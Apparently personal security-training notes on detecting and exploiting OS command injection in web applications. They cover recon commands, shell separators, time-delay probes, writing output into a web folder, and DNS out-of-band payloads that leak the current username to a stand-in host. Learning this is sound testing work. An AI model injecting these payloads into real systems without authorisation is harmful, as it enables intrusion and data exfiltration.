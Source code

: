 ### OS command injection

**Useful commands**

| Purpose of command    | Linux         | Windows         |
| --------------------- | ------------- | --------------- |
| Name of current user  | `whoami`      | `whoami`        |
| Operating system      | `uname -a`    | `ver`           |
| Network configuration | `ifconfig`    | `ipconfig /all` |
| Network connections   | `netstat -an` | `netstat -an`   |
| Running processes     | `ps -ef`      | `tasklist`      |



#### How to Test this Vulnerability

- **Simple case**

  try to add `|whoami` to the end of parameters go to DB and observe the response

  *this case work when website append no defense against this type of attacks*

- **Blind OS command injection vulnerabilities**

  he application does not return the output from the command within its HTTP response.

  Consider a web site that lets users **submit feedback** about the site.

  **How to detect :**

  - **Detecting blind OS command injection using time delays**

    add `||ping -c 10 127.0.0.1||`  if delay executed this parameter vulnerable 

  - **Exploiting blind OS command injection by redirecting output**

    add `||whoami > /var/www/static/whoami.txt||` then search for function which retrieve data from this folder alter the request to `whoami.txt` 

  - **Exploiting blind OS command injection using out-of-band (OAST) techniques**

    add `|| nslookup yoursite.com ||`  then check your logs or use burp collab URL

    add *||nslookup+whoami.yoursite.com||*  then check your logs or use burp collab URL



#### Ways of injecting OS commands

A variety of shell metacharacters can be used to perform OS command injection attacks.

A number of characters function as command separators, allowing commands to be chained together. The following command separators work on both Windows and Unix-based systems:

- &
- &&
- |
- ||

The following command separators work only on Unix-based systems:

- ;
- Newline (0x0a or \n)

On Unix-based systems, you can also use backticks or the dollar character to perform inline execution of an injected command within the original command:

```
`injected command `
$( injected command )
```



Note :

that the different shell metacharacters have subtly different behaviors that might affect whether they work in certain situations, and whether they allow in-band retrieval of command output or are useful only for blind exploitation.

*Sometimes, the input that you control appears within quotation marks in the original command. In this situation, you need to terminate the quoted context (using " or ') before using suitable shell metacharacters to inject a new command.*

